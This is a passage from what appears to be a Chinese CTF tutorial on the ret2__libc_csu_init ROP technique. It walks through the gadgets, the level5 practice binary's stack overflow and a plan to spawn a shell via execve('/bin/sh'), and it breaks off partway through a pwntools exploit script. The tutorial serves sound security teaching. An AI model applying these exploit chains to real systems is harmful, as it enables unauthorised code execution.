 这里我们可以利用以下几点

- 从 0x000000000040061A 一直到结尾，我们可以利用栈溢出构造栈上数据来控制 rbx,rbp,r12,r13,r14,r15 寄存器的数据。
- 从 0x0000000000400600 到 0x0000000000400609，我们可以将 r13 赋给 rdx,将 r14 赋给 rsi，将 r15d 赋给 edi（需要注意的是，虽然这里赋给的是 edi，**但其实此时 rdi 的高 32 位寄存器值为 0（自行调试）**，所以其实我们可以控制 rdi 寄存器的值，只不过只能控制低 32 位），而这三个寄存器，也是 x64 函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制 r12 与 rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制 rbx 为 0，r12 为存储我们想要调用的函数的地址。
- 从 0x000000000040060D 到 0x0000000000400614，我们可以控制 rbx 与 rbp 的之间的关系为rbx+1 = rbp，这样我们就不会执行 loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

### 示例

这里我们以蒸米的一步一步学 ROP 之 linux_x64 篇中 level5 为例进行介绍。首先检查程序的安全保护

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为 64 位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

简单浏览下程序，发现程序中既没有 system 函数地址，也没有 /bin/sh 字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用 system 函数来获取 shell 失败了，应该是环境变量的问题，所以这里使用的是execve 来获取 shell。**

基本利用思路如下

- 利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
- 根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
- 再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行main 函数。
- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

exp 如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
```
